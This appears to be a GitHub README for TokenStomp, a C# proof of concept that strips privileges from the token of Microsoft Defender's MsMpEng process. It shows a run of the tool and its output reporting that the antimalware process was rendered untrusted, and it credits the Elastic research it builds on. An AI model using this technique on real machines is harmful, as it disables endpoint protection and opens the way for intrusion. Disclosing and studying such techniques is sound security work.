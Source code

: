 # TokenStomp

C# POC for the token privilege removal flaw reported by [@GabrielLandau](https://twitter.com/GabrielLandau) at Elastic.


```
C:\Users\Mrtn>TokenStomp.exe MsMpEng

  ________           ▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄ ▄▄▄   ▄ ▄▄▄▄▄▄▄ ▄▄    ▄ ▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄ ▄▄   ▄▄ ▄▄▄▄▄▄▄
 (____ / <|         █       █       █   █ █ █       █  █  █ █       █       █       █  █▄█  █       █
 (___ /  <|         █▄     ▄█   ▄   █   █▄█ █    ▄▄▄█   █▄█ █  ▄▄▄▄▄█▄     ▄█   ▄   █   █   █    ▄  █
 (__ /   <`-------.   █   █ █  █ █  █      ▄█   █▄▄▄█       █ █▄▄▄▄▄  █   █ █  █ █  █       █   █▄█ █
 /  `.    ^^^^^ |  \  █   █ █  █▄█  █     █▄█    ▄▄▄█  ▄    █▄▄▄▄▄  █ █   █ █  █▄█  █  ▄ ▄  █    ▄▄▄█
|     \---------'   | █   █ █       █    ▄  █   █▄▄▄█ █ █   █▄▄▄▄▄█ █ █   █ █       █ ██▄██ █   █
|______|___________/] █▄▄▄█ █▄▄▄▄▄▄▄█▄▄▄█ █▄█▄▄▄▄▄▄▄█▄█  █▄▄█▄▄▄▄▄▄▄█ █▄▄▄█ █▄▄▄▄▄▄▄█▄█   █▄█▄▄▄█
[▄▄▄▄▄|`-.▄▄▄▄▄▄▄▄▄]               Implemented by @Mrtn9 - Technique by @GabrielLandau

[*] Found MsMpEng with pid 4988
[*] Got handle to process
[*] Successfully opened process token
[*] Got token information
[*] Found 14 privileges in token
[*] Successfully removed 14 of 14 privileges from token
[*] Successfully set token untrusted

C:\Users\Mrtn>
```

![Proof of Concept screenshot](./POC.png)

# Credits
- This wonderful blogpost by [Gabriel Landau](https://twitter.com/GabrielLandau) over at Elastic: [Sandboxing Antimalware Products for Fun and Profit](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
- This C++ implementation by [Sudheer Varma](https://twitter.com/0xpwnisher) (which I wish I saw before writing my implementation...): [KillDefender](https://github.com/pwn1sher/KillDefender/)
